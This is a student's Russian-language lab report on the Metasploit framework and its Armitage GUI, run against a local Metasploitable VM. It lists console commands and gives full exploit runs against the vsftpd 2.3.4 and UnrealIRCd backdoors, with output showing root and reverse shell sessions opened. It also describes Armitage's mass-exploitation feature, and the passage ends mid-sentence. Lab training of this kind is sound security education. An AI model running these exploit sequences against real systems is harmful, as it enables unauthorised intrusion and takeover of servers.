\documentclass[10pt,a4paper]{report}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\renewcommand{\thesection}{\arabic{section}}
\setcounter{totalnumber}{10}
\setcounter{topnumber}{10}
\setcounter{bottomnumber}{10}
\renewcommand{\topfraction}{1}
\renewcommand{\textfraction}{0}
\author{Никитина Анна}
\title{Лабораторная работа №5.\\
	Инструмент тестов на проникновение Metasploit}
\begin{document}
\maketitle
\tableofcontents
\pagebreak

\section{Цель работы}
Изучить возможности инструмента  Metasploit на различных примерах.
\section{Ход работы}
\subsection{Изучение}
\subsubsection{Изучение базовых понятий}
Metasploit Framework – это инструмент для создания, тестирования и использования эксплойтов. Metasploit имеет модульную архитектуру. Модульная архитектура позволяет легко расширить функциональность фреймворка. Модули делятся на несколько типов, в зависимости от предоставляемой функциональности:
\begin{itemize}
\item Exploit — код, эксплуатирующий определенную уязвимость на целевой системе;
\item Payload — код, который запускается на целевой системе после того, как отработал эксплойт;
\item Post — код, который запускается на системе после успешного проникновения;
\item Encoder — инструменты для обфускации модулей с целью маскировки от антивирусов;
\item NOP — генераторы NOP’ов. Это ассемблерная инструкция, которая не производит никаких действий. Используется, чтобы заполнять пустоту в исполняемых файлах, для подгонки под необходимый размер;
\item Auxiliary — модули для сканирования сети, анализа трафика и так далее.
\item Shellcode — программный код, который выполняется и передаёт управление командной оболочке (shell). 
\end{itemize}
\subsubsection{Список допустимых команд}
\begin{verbatim}
msf > help

Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    advanced      Displays advanced options for one or more modules
    back          Move back from the current context
    banner        Display an awesome metasploit banner
    cd            Change the current working directory
    color         Toggle color
    connect       Communicate with a host
    edit          Edit the current module with $VISUAL or $EDITOR
    exit          Exit the console
    get           Gets the value of a context-specific variable
    getg          Gets the value of a global variable
    grep          Grep the output of another command
    help          Help menu
    info          Displays information about one or more modules
    irb           Drop into irb scripting mode
    jobs          Displays and manages jobs
    kill          Kill a job
    load          Load a framework plugin
    loadpath      Searches for and loads modules from a path
    makerc        Save commands entered since start to a file
    options       Displays global options or for one or more modules
    popm          Pops the latest module off the stack and makes it active
    previous      Sets the previously loaded module as the current module
    pushm         Pushes the active or list of modules onto the module stack
    quit          Exit the console
    reload_all    Reloads all modules from all defined module paths
    rename_job    Rename a job
    resource      Run the commands stored in a file
    route         Route traffic through a session
    save          Saves the active datastores
    search        Searches module names and descriptions
    sessions      Dump session listings and display information about sessions
    set           Sets a context-specific variable to a value
    setg          Sets a global variable to a value
    show          Displays modules of a given type, or all modules
    sleep         Do nothing for the specified number of seconds
    spool         Write console output into a file as well the screen
    threads       View and manipulate background threads
    unload        Unload a framework plugin
    unset         Unsets one or more context-specific variables
    unsetg        Unsets one or more global variables
    use           Selects a module by name
    version       Show the framework and console library version numbers


Database Backend Commands
=========================

    Command           Description
    -------           -----------
    creds             List all credentials in the database
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces
\end{verbatim}


\subsubsection{Базовые команды}
С помощью команды search найдем модули, связанные с mySQL.
\begin{verbatim}
msf > search mySQL

Matching Modules
================

   Name                                                  Disclosure Date  Rank       Description
   ----                                                  ---------------  ----       -----------
   auxiliary/admin/http/manageengine_pmp_privesc         2014-11-08       normal     ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   auxiliary/admin/http/rails_devise_pass_reset          2013-01-28       normal     Ruby on Rails Devise Authentication Password Reset
   auxiliary/admin/mysql/mysql_enum                                       normal     MySQL Enumeration Module
   auxiliary/admin/mysql/mysql_sql                                        normal     MySQL SQL Generic Query
   auxiliary/admin/tikiwiki/tikidblib                    2006-11-01       normal     TikiWiki Information Disclosure
   auxiliary/analyze/jtr_mysql_fast                                       normal     John the Ripper MySQL Password Cracker (Fast Mode)
   auxiliary/gather/joomla_weblinks_sqli                 2014-03-02       normal     Joomla weblinks-categories Unauthenticated SQL Injection Arbitrary File Read
   auxiliary/scanner/mysql/mysql_authbypass_hashdump     2012-06-09       normal     MySQL Authentication Bypass Password Dump
   auxiliary/scanner/mysql/mysql_file_enum                                normal     MYSQL File/Directory Enumerator
   auxiliary/scanner/mysql/mysql_hashdump                                 normal     MYSQL Password Hashdump
   auxiliary/scanner/mysql/mysql_login                                    normal     MySQL Login Utility
   auxiliary/scanner/mysql/mysql_schemadump                               normal     MYSQL Schema Dump
   auxiliary/scanner/mysql/mysql_version                                  normal     MySQL Server Version Enumeration
   auxiliary/server/capture/mysql                                         normal     Authentication Capture: MySQL
   exploit/linux/mysql/mysql_yassl_getname               2010-01-25       good       MySQL yaSSL CertDecoder::GetName Buffer Overflow
   exploit/linux/mysql/mysql_yassl_hello                 2008-01-04       good       MySQL yaSSL SSL Hello Message Buffer Overflow
   exploit/multi/http/manage_engine_dc_pmp_sqli          2014-06-08       excellent  ManageEngine Desktop Central / Password Manager LinkViewFetchServlet.dat SQL Injection
   exploit/multi/http/zpanel_information_disclosure_rce  2014-01-30       normal     Zpanel Remote Unauthenticated RCE
   exploit/unix/webapp/kimai_sqli                        2013-05-21       average    Kimai v0.9.2 'db_restore.php' SQL Injection
   exploit/unix/webapp/wp_google_document_embedder_exec  2013-01-03       normal     WordPress Plugin Google Document Embedder Arbitrary File Disclosure
   exploit/windows/mysql/mysql_mof                       2012-12-01       excellent  Oracle MySQL for Microsoft Windows MOF Execution
   exploit/windows/mysql/mysql_payload                   2009-01-16       excellent  Oracle MySQL for Microsoft Windows Payload Execution
   exploit/windows/mysql/mysql_start_up                  2012-12-01       excellent  Oracle MySQL for Microsoft Windows FILE Privilege Abuse
   exploit/windows/mysql/mysql_yassl_hello               2008-01-04       average    MySQL yaSSL SSL Hello Message Buffer Overflow
   exploit/windows/mysql/scrutinizer_upload_exec         2012-07-27       excellent  Plixer Scrutinizer NetFlow and sFlow Analyzer 9 Default MySQL Credential
   post/linux/gather/enum_configs                                         normal     Linux Gather Configurations
   post/linux/gather/enum_users_history                                   normal     Linux Gather User History
   post/multi/manage/dbvis_add_db_admin                                   normal     Multi Manage DbVisualizer Add Db Admin
\end{verbatim}
Для использования мрдуля необходимо использовать команду use и указать имя модуля.
\begin{verbatim}
msf > use auxiliary/scanner/mysql/mysql_version 
\end{verbatim}
Для получения полробной информации о модуле используем команду info
\begin{verbatim}
msf > info auxiliary/scanner/mysql/mysql_version

       Name: MySQL Server Version Enumeration
     Module: auxiliary/scanner/mysql/mysql_version
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  kris katterjohn <katterjohn@gmail.com>

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS                    yes       The target address range or CIDR identifier
  RPORT    3306             yes       The target port
  THREADS  1                yes       The number of concurrent threads

Description:
  Enumerates the version of MySQL servers
\end{verbatim}
Для получения информации в формате json флаг -j.
\begin{verbatim}
msf > info auxiliary/scanner/mysql/mysql_version -j
{"license":"Metasploit Framework License (BSD)","disclosure_date":null,"actions":[],"references":null,"name":"MySQL Server Version Enumeration","fullname":"auxiliary/scanner/mysql/mysql_version","authors":["kris katterjohn \u003Ckatterjohn@gmail.com\u003E"],"rank":"Normal","description":"Enumerates the version of MySQL servers","options":[{"name":"RHOSTS","display_value":"","required":"true","description":"The target address range or CIDR identifier"},{"name":"RPORT","display_value":"3306","required":"true","description":"The target port"},{"name":"THREADS","display_value":"1","required":"true","description":"The number of concurrent threads"}]}
\end{verbatim}
Командe search также можно указывать параметр для поиск. Например, поиск по типу модуля.
\begin{verbatim}
msf > search type:NOP

Matching Modules
================

   Name                 Disclosure Date  Rank    Description
   ----                 ---------------  ----    -----------
   nop/armle/simple                      normal  Simple
   nop/php/generic                       normal  PHP Nop Generator
   nop/ppc/simple                        normal  Simple
   nop/sparc/random                      normal  SPARC NOP Generator
   nop/tty/generic                       normal  TTY Nop Generator
   nop/x64/simple                        normal  Simple
   nop/x86/opty2                         normal  Opty2
   nop/x86/single_byte                   normal  Single Byte

\end{verbatim}
Поиск по автору.
\begin{verbatim}
msf > search author:kris katterjohn

Matching Modules
================

   Name                                              Disclosure Date  Rank       Description
   ----                                              ---------------  ----       -----------
   auxiliary/admin/motorola/wr850g_cred              2004-09-24       normal     Motorola WR850G v4.03 Credentials
   auxiliary/dos/http/webrick_regex                  2008-08-08       normal     Ruby WEBrick::HTTP::DefaultFileHandler DoS
   auxiliary/dos/mdns/avahi_portzero                 2008-11-14       normal     Avahi Source Port 0 DoS
   auxiliary/dos/tcp/synflood                                         normal     TCP SYN Flooder
   auxiliary/dos/windows/ftp/guildftp_cwdlist        2008-10-12       normal     Guild FTPd 0.999.8.11/0.999.14 Heap Corruption
   auxiliary/dos/windows/ftp/titan626_site           2008-10-14       normal     Titan FTP Server 6.26.630 SITE WHO DoS
   auxiliary/dos/windows/ftp/vicftps50_list          ....

\end{verbatim}
\subsubsection{Команды по работе с эксплоитом}
Попробуем применить какой-либо эксплойт на удаленный хост. Например, эксплоит 
\begin{verbatim}
exploit/multi/http/vtiger_php_exec
\end{verbatim}
Эксплоиту дано следующее определение.\\
Злоумышленник может загрузить PHP скрипт и выполнить произвольный PHP код удаленно. Этот модуль был протестирован против Vtiger CRM v5.4.0 и v5.3.0. \\
Чтобы использовать эксплоит необходимо указать команду \textit{use}.
\begin{verbatim}
msf > use exploit/multi/http/vtiger_php_exec
\end{verbatim}
Далее командой \textit{show options} просмотрим опции эксплоита и установим адрес хоста командой \textit{set RHOST 192.168.0.103}.
\begin{verbatim}
msf exploit(vtiger_php_exec) > show options

Module options (exploit/multi/http/vtiger_php_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            no        Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port
   TARGETURI  /vtigercrm/      yes       Base vTiger CRM directory path
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf exploit(vtiger_php_exec) > set RHOST 192.168.0.103
RHOST => 192.168.0.103
\end{verbatim}
Выполним эксплоит командой \textit{exploit}. Видим, что эксплоит был выполнен, но неуспешно.
\begin{verbatim}
msf exploit(vtiger_php_exec) > exploit

[*] Started reverse TCP handler on 192.168.0.102:4444 
[*] Exploit completed, but no session was created.
\end{verbatim}
Чтобы выйти из эксплоита используем команду \textit{back}.
\begin{verbatim}
msf exploit(vtiger_php_exec) > back
\end{verbatim}

\subsubsection{Команды по работе с БД}
Ниже приведены все команды по работе с БД.
\begin{verbatim}
Database Backend Commands
=========================

    Command           Description
    -------           -----------
    creds             List all credentials in the database
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces
\end{verbatim}
Команда db\_connect для подключения к БД. В нашем случае БД уже подключена, О чем говорит команда db\_status (статус БД).
\begin{verbatim}
msf > db_connect
[-] postgresql already connected to msf
[-] Run db\_disconnect first if you wish to connect to a different database
msf > db_status
[*] postgresql connected to msf
\end{verbatim}
Hosts показывает список всех просканированных портов.
\begin{verbatim}
msf > hosts

Hosts
=====

address        mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------        ---                ----  -------  ---------  -----  -------  ----  --------
192.168.0.103  08:00:27:94:82:93        Linux                      server         
\end{verbatim}
Services показывает список всех найденных сервисов.
\begin{verbatim}
msf > services

Services
========

host           port  proto  name         state  info
----           ----  -----  ----         -----  ----
192.168.0.103  21    tcp    ftp          open   vsftpd 2.3.4
192.168.0.103  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
192.168.0.103  23    tcp    telnet       open   Linux telnetd
192.168.0.103  25    tcp    smtp         open   Postfix smtpd
192.168.0.103  53    tcp    domain       open   ISC BIND 9.4.2
192.168.0.103  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
192.168.0.103  111   tcp    rpcbind      open   2 RPC #100000
192.168.0.103  139   tcp    netbios-ssn  open   Samba smbd 3.X workgroup: WORKGROUP
192.168.0.103  445   tcp    netbios-ssn  open   Samba smbd 3.X workgroup: WORKGROUP
192.168.0.103  512   tcp    exec         open   netkit-rsh rexecd
192.168.0.103  513   tcp    login        open   
192.168.0.103  514   tcp    tcpwrapped   open   
192.168.0.103  1099  tcp    rmiregistry  open   ....
\end{verbatim}
Workspace показывает окружение, в котором находится пользователь. Флаг -а для создания нового окружения. Между окружениями можно переключаться. Пр переключении на новое  только что созданное окужение команда hosts выводит пустой список, что говорит о том, что БД еще незаполнена.
\begin{verbatim}
msf > workspace
* default
msf > creds
Credentials
===========

host  origin  service  public  private  realm  private_type
----  ------  -------  ------  -------  -----  ------------

msf > workspace -a new_work
[*] Added workspace: new_work
msf > hosts

Hosts
=====

address  mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------  ---  ----  -------  ---------  -----  -------  ----  --------

msf > workspace 
  default
* new_work
msf > workspace default
[*] Workspace: default
\end{verbatim}

\begin{verbatim}
msf auxiliary(mysql_version) > show options

Module options (auxiliary/scanner/mysql/mysql_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    3306             yes       The target port
   THREADS  1                yes       The number of concurrent threads

msf auxiliary(mysql_version) > set RHOSTS 192.168.0.103
RHOSTS => 192.168.0.103
msf auxiliary(mysql_version) > exploit

[*] 192.168.0.103:3306 is running MySQL 5.0.51a-3ubuntu5 (protocol 10)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(mysql_version) > back
msf > db_nmap 192.168.0.103 -sV
[*] Nmap: Starting Nmap 7.01 ( https://nmap.org ) at 2016-04-02 09:45 EDT
[*] Nmap: Nmap scan report for 192.168.0.103
[*] Nmap: Host is up (0.00026s latency).
[*] Nmap: Not shown: 977 closed ports
[*] Nmap: PORT     STATE SERVICE     VERSION
[*] Nmap: 21/tcp   open  ftp         vsftpd 2.3.4
[*] Nmap: 22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
[*] Nmap: 23/tcp   open  telnet      Linux telnetd
[*] Nmap: 25/tcp   open  smtp        Postfix smtpd
[*] Nmap: 53/tcp   open  domain      ISC BIND 9.4.2
[*] Nmap: 80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
[*] Nmap: 111/tcp  open  rpcbind     2 (RPC #100000)
[*] Nmap: 139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
[*] Nmap: 512/tcp  open  exec        netkit-rsh rexecd
[*] Nmap: 513/tcp  open  login?
[*] Nmap: 514/tcp  open  tcpwrapped
[*] Nmap: 1099/tcp open  rmiregistry GNU Classpath grmiregistry
[*] Nmap: 1524/tcp open  shell       Metasploitable root shell
[*] Nmap: 2049/tcp open  nfs         2-4 (RPC #100003)
[*] Nmap: 2121/tcp open  ftp         ProFTPD 1.3.1
[*] Nmap: 3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
[*] Nmap: 5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
[*] Nmap: 5900/tcp open  vnc         VNC (protocol 3.3)
[*] Nmap: 6000/tcp open  X11         (access denied)
[*] Nmap: 6667/tcp open  irc         Unreal ircd
[*] Nmap: 8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
[*] Nmap: 8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
[*] Nmap: MAC Address: 08:00:27:94:82:93 (Oracle VirtualBox virtual NIC)
[*] Nmap: Service Info: Hosts:  metasploitable.localdomain, localhost, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 30.34 seconds
\end{verbatim}
\subsubsection{GUI оболочка Armitage}
Armitage — это графический интерфейс для Metasploit. Armitage позволяет выбрать в графическом меню какую-либо из наиболее часто применяемых задач и сама запустит необходимую программу с нужными ключами для её выполнения.
Откроем Armitage(рисунок \ref{ris:img1}) . \\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/1}}   
\caption{GUI оболочка Armitage}
\label{ris:img1}  
\end{figure}
Для подбора эксплоитов переходим в пункт меню Attacks и выбираем Find Attacks (рисунок \ref{ris:img2}).\\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/7}}
\caption{Find Attacs}
\label{ris:img2}   
\end{figure}
После завершения операции видим следующее окно(рисунок \ref{ris:img3} ).\\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/3}}
\caption{Завершение процесса Find Attacs}
\label{ris:img3}   
\end{figure}
Теперь кликнем правой кнопкой мыши по хосту и выбирем Attack. В открывшемся меню атаки сгруппированы по типу цели. Можно выбрать конкретную атаку или провести проверку группы атак. (рисунок \ref{ris:img4} ) \\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/4}}
\caption{Найденные уязвимости}
\label{ris:img4}  
\end{figure}
После выбора конкретной атаки, появляется окно с уточнением опций атаки. Подтверждаем их (рисунок \ref{ris:img5} ).\\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/5}}
\caption{Опции атаки}
\label{ris:img5}  
\end{figure}
После успешной атаки, атакуемый хост принимает следующий вид (рисунок \ref{ris:img6} ).\\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/6}}
\caption{Атакуемый хост}
\label{ris:img6}   
\end{figure}
\subsection{Практическое задание}
\begin{verbatim}
exploit/multi/vnc/vnc_keyboard_exec
list_dir
\end{verbatim}
\subsubsection{Получить консоль, используя уязвимость в vsftpd}
Чтобы получить консоль, используя уязвимость в vsftpd существует эксплоит.
\begin{verbatim}
exploit/unix/ftp/vsftpd_234_backdoor
\end{verbatim}
Ниже показано использование эксплоита, установка опций (адреса удаленного хоста).
\begin{verbatim}
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.0.103
RHOST => 192.168.0.103
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 2 opened (192.168.0.102:39102 -> 192.168.0.103:6200) at 2016-04-02 10:28:45 -0400
\end{verbatim}
После доступна консоль удаленного хоста, введем любую команду, например ls для получения файлов в текущей директории. 
\begin{verbatim}
ls -l
total 89
drwxr-xr-x   2 root root  4096 May 13  2012 bin
drwxr-xr-x   4 root root  1024 May 13  2012 boot
lrwxrwxrwx   1 root root    11 Apr 28  2010 cdrom -> media/cdrom
drwxr-xr-x  14 root root 13520 Apr  2 08:42 dev
drwxr-xr-x  95 root root  4096 Apr  2 07:41 etc
drwxr-xr-x   6 root root  4096 Apr 16  2010 home
drwxr-xr-x   2 root root  4096 Mar 16  2010 initrd
lrwxrwxrwx   1 root root    32 Apr 28  2010 initrd.img -> boot/initrd.img-2.6.24-16-server
drwxr-xr-x  13 root root  4096 May 13  2012 lib
drwx------   2 root root 16384 Mar 16  2010 lost+found
drwxr-xr-x   4 root root  4096 Mar 16  2010 media
drwxr-xr-x   3 root root  4096 Apr 28  2010 mnt
-rw-------   1 root root 15194 Apr  2 07:41 nohup.out
drwxr-xr-x   2 root root  4096 Mar 16  2010 opt
dr-xr-xr-x 117 root root     0 Apr  2 07:40 proc
drwxr-xr-x  13 root root  4096 Apr  2 07:41 root
drwxr-xr-x   2 root root  4096 May 13  2012 sbin
drwxr-xr-x   2 root root  4096 Mar 16  2010 srv
drwxr-xr-x  12 root root     0 Apr  2 07:40 sys
drwxrwxrwt   4 root root  4096 Apr  2 09:08 tmp
drwxr-xr-x  12 root root  4096 Apr 28  2010 usr
drwxr-xr-x  15 root root  4096 May 20  2012 var
lrwxrwxrwx   1 root root    29 Apr 28  2010 vmlinuz -> boot/vmlinuz-2.6.24-16-server
^C
Abort session 2? [y/N]  y

[*] 192.168.0.103 - Command shell session 2 closed.  Reason: User exit
\end{verbatim}
\subsubsection{Получить консоль, используя уязвимость в irc}
Чтобы получить консоль, используя уязвимость в irc существует эксплоит.
\begin{verbatim}
exploit/unix/irc/unreal_ircd_3281_backdoor
\end{verbatim}
Ниже приведен пример использования эксплоита, после получения консоли также для проверки ее работы была введена команда ls. Видим, что удалось успешно получить доступ к консоли удаленного хоста.
\begin{verbatim}
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  6667             yes       The target port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.0.103
RHOST => 192.168.0.103
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP double handler on 192.168.0.102:4444 
[*] Connected to 192.168.0.103:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo OBZdmuQTwzzXx5fg;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "OBZdmuQTwzzXx5fg\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.0.102:4444 -> 192.168.0.103:56024) at 2016-04-02 10:26:49 -0400

ls
Donation
LICENSE
aliases
badwords.channel.conf
badwords.message.conf
badwords.quit.conf
curl-ca-bundle.crt
dccallow.conf
doc
help.conf
ircd.log
ircd.pid
ircd.tune
modules
networks
spamfilter.conf
tmp
unreal
unrealircd.conf
^C
Abort session 1? [y/N]  y

[*] 192.168.0.103 - Command shell session 1 closed.  Reason: User exit
\end{verbatim}
\subsubsection{Armitage Hail Mary}
Опция Hail Mary произведет поиск эксплоитов, подходящих для атаки. Затем будет произведена фильтрация сплоитов на основе информации о хостах-целях. Например, Hail Mary не запустит эксплоит, работающий для OS Linux против хоста, на котором работает OS Windows. Затем отфильтрованные эксплоиты будут отранжирены по принципу - какой из них лучше всего запустить в первую очередь (то есть, какой из них с максимальной вероятностью будет работать с указанной целью-хостом). После того, как все эти подготовительные шаги будут выполнены, Hail Mary запустит сплоиты против указанной(ых) целей. Такой способ не гарантирует рабочей командной оболочки на удаленном хосте, но он является хорошим вариантом в том случае, когда вы не знаете, что делать дальше. \\
Запустим опцию Hail Mary (рисунок \ref{ris:img7} ).\\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/7}}
\caption{Опция Hail Mary}
\label{ris:img7}   
\end{figure}
В консоли видим используемые эксплоиты (рисунок \ref{ris:img8} ).\\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/9}}
\caption{Используемые эксплоиты}
\label{ris:img8}  
\end{figure}
После завершения функции в консоли отобразятся открытые сессии (рисунок \ref{ris:img9} ).\\
\begin{figure}[h]
\center{
\includegraphics[width=0.8\linewidth]{image/10}}
\caption{Открытые сессии}
\label{ris:img9}  
\end{figure}
Например, первая сессия говорит о том, что с помощью эксплоита 
\begin{verbatim}
exploit/unix/irc/unreal_ircd_3281_backdoor
\end{verbatim}
